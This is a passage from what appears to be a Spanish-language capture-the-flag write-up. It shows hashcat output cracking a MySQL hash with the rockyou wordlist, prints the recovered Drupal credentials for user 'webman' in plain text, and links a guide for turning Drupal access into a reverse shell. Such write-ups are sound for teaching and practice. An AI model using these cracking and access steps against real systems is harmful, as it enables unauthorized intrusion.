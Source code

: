```
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 300 (MySQL4.1/MySQL5)
Hash.Target......: hash
Time.Started.....: Tue Jun  4 12:01:26 2024 (13 secs)
Time.Estimated...: Tue Jun  4 12:01:39 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1441.7 kH/s (0.14ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/2 (50.00%) Digests (total), 1/2 (50.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 22%

Started: Tue Jun  4 12:00:54 2024
Stopped: Tue Jun  4 12:01:41 2024
```

Nos saca las credenciales de `webman`, si las utilizamos en la pagina nos logeara...

```
User = webman
Pass = moranguita
```

Una vez que estemos dentro del drupal haremos lo siguiente para conseguir una `Reverse Shell`...

URL = https://www.sevenlayers.com/index.php/blog/413-drupal-to-reverse-shell
